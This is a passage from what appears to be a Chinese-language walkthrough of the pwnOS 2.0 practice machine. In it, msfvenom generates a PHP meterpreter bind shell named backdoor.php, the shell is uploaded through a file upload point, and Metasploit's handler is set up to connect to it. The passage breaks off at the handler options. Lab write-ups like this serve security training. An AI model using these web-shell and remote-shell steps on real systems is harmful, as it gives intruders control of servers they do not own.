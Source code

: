 

msfvenom生成php的shell:

```bash
root@kali:~# msfvenom -p php/meterpreter/bind_tcp LPORT=4444 > backdoor.php
```

找到了上传点，上传msfvenom生成的shell：

![上传shell](/img/game/pwnos2.0/1511837405137.png)

使用msf设置监听，连接shell:

```bash
msf > use exploit/multi/handler 

msf exploit(handler) > set payload php/meterpreter/bind_tcp
payload => php/meterpreter/bind_tcp

msf exploit(handler) > set RHOST 10.10.10.100
RHOST => 10.10.10.100

msf exploit(handler) > set LPORT 4444
LPORT => 4444

msf exploit(handler) > options
```
